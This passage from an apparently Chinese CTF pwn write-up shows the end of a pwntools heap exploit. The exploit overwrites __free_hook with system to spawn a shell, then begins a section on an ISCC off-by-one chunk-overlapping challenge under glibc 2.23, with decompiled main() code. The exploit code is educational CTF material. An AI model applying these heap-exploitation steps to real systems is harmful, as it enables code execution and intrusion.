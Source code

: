 ```bash

pl=p64(0)+p64(0xf1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0)
pl=pl.ljust(0xf0,'\x00')
pl+=p64(0xf0)
edit(7,pl)
delete(8)

for i in range(7):
    add(i,0xf8,'')

add(9,0xf8,'')
delete(1)
delete(9)

pl = p64(0)+p64(0x100)+p64(free_hook)
edit(7,pl)
add(1,0xf8,'/bin/sh\x00')
add(9,0xf8,p64(system))

sla('>> ',str(2))
sla('which note do you want delete?\n',str(1))
itr()
```

## ISCC 线下赛 - 私地

glibc2.23 : off by one + chunk Overlapping  
off by one 向下合并：size and prev size inuse  
合并只需要改 chunk 一步就能成功，然后 free 后就能释放，释放后再次申请就有重叠的 chunk 了

### ida

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[4]; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  while ( 1 )
  {
    menu();
    read(0, buf, 4uLL);
    switch ( atoi(buf) )
    {
      case 1:
        create_user();
        break;
      case 2:
        edit_user();
        break;
      case 3:
        show_user();
        break;
      case 4:
        delete_user();
        break;
      case 5:
        exit(0);
      default:
        puts("Invalid Choice");
```